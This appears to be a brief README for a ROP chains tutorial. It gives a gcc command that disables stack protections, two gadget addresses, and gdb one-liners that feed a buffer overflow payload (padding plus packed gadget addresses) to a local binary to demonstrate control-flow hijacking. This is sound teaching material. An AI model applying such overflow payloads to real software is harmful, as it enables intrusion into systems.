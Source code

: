 # ROP Chains tutorial

Compile using

`gcc main.c -O0 -no-pie -fno-stack-protector -z execstack -o bin.out`

ret gadget @ 0x00401110

pop rbp gadget @ 0x0040110d

To see it in action,  inside `gdb bin.out`

`r < <(python3 -c "import sys; import pwn; sys.stdout.buffer.write(b'a'*40 + pwn.p64(0x00401110))")`

for the ret gadget. You will see rsp moving 0x8.

`r < <(python3 -c "import sys; import pwn; sys.stdout.buffer.write(b'a'*40 + pwn.p64(0x0040110d) + pwn.p64(0xdeadbeef))")`

for the pop gadget. You will see the value getting stored in rbp.
